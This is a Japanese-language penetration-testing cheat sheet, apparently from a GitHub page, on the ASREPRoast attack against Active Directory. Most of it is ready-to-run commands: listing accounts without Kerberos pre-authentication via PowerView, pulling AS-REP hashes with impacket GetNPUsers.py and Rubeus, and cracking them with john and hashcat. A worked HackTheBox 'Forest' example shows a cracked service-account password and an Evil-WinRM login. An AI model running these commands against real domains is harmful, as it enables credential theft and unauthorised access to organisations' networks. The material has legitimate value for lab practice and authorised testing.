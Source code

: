 # ASREPRoast攻撃
ASREPRoast攻撃は、Kerberosの事前認証必須属性(DONT_REQ_PREAUTH)を持たないユーザを探します。 つまり、誰もがそれらのユーザに代わってDCにAS_REQリクエストを送信し、AS_REPメッセージを受け取ることができるということです。   
[Hacktrick](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
```
#脆弱なユーザーの列挙（ドメイン資格情報が必要）
$ Get-DomainUser -PreauthNotRequired -verbose #PowerViewを使用して脆弱なユーザーを一覧表示する
```
AS_REPメッセージを要求

Linuxの場合
```
# usernames.txt内の全てのユーザー名を試す
$ python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#ドメイン資格情報を使用してターゲットを抽出し、それらをターゲットにする
$ python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
Windowsの場合
```
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```

```
$ python3 GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
>-usersfile: enum4linuxコマンドにて列挙したユーザーリストファイルusernames.txtを使用します。  
-format: パスワードハッシュのフォーマットとして、john形式にて出力させます。   
-outputfile: 結果をhtb-forest.txtファイルに出力させます。   

例）
```
kali@kali:~/impacket/examples$ python3 GetNPUsers.py HTB.local/ -usersfile ~/OffsecVM/hackthebox/Forest/usernames.txt -format john -outputfile htb-forest.txt -no-pass -dc-ip 10.10.10.161
#ユーザー名： svc-alfresco
#パスワード： s3rvice
# john
$ john htb-forest.txt --wordlist=/home/kali/OffsecVM/rockyou.txt
#hashcat
$ hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```

WinRM(5985/tcp)が開いていればEvil-WinRMで接続
```
kali@kali:~/evil-winrm$ ./evil-winrm.rb -i forest.htb -u svc-alfresco -p s3rvice
```